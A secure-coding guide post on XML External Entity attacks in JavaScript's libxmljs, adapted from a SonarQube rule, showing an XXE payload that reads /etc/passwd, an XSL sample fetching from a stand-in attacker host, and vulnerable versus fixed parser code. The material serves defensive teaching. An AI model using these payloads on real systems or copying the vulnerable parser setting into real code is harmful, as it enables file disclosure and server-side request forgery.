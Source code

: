 # [Code4Sec Week](https://www.facebook.com/hashtag/code4sec) / Day 4 - XML External Entities (XXE) in JavaScript.
[#NEIS0736](https://www.facebook.com/hashtag/neis0736) [#NECS0736](https://www.facebook.com/hashtag/necs0736)

![JavaScript](/images/JS.gif)

## XML parsers should not be vulnerable to XXE attacks

[XML specification](https://www.w3.org/TR/xml/) allows the use of entities that can be [internal](https://www.w3.org/TR/xml/#sec-internal-ent) or [external](https://www.w3.org/TR/xml/#sec-external-ent) (file system / network access ...) which could lead to vulnerabilities such as confidential file disclosures or [SSRFs](https://www.owasp.org/index.php/Server_Side_Request_Forgery).

Example in this XML document, an external entity read the /etc/passwd file:

```
<?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
<note xmlns="http://www.w3schools.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <to>&xxe;</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>
```

In this XSL document, network access is allowed which can lead to SSRF vulnerabilities:

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.attacker.com/evil.xsl">
  <xsl:import href="http://www.attacker.com/evil.xsl"/>
  <xsl:include href="http://www.attacker.com/evil.xsl"/>
 <xsl:template match="/">
  &content;
 </xsl:template>
</xsl:stylesheet>
It is recommended to disable access to external entities and network access in general.
```

**Noncompliant Code Example**

[libxmljs](https://github.com/libxmljs/libxmljs) module:

```
const libxmljs = require("libxmljs");
var fs = require('fs');

var xml = fs.readFileSync('xxe.xml', 'utf8');

var xmlDoc = libxmljs.parseXmlString(xml, { noblanks: true, noent: true, nocdata: true }); // Noncompliant: noent set to true
```

**Compliant Solution**

[libxmljs](https://github.com/libxmljs/libxmljs) module:

```
const libxmljs = require("libxmljs");
var fs = require('fs');

var xml = fs.readFileSync('xxe.xml', 'utf8');

var xmlDoc = libxmljs.parseXmlString(xml); // Compliant: noent set to false by default
```

**See**

* [OWASP Top 10 2017 Category A4](https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_(XXE)) - XML External Entities (XXE)
* [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [MITRE, CWE-611](http://cwe.mitre.org/data/definitions/611.html) - Information Exposure Through XML External Entity Reference
* [MITRE, CWE-827](http://cwe.mitre.org/data/definitions/827.html) - Improper Control of Document Type Definition

**แหล่งที่มา**

[<img src="/images/sonarqube.svg" alt="SonarQube" height="50">](https://rules.sonarsource.com/javascript/RSPEC-2755)
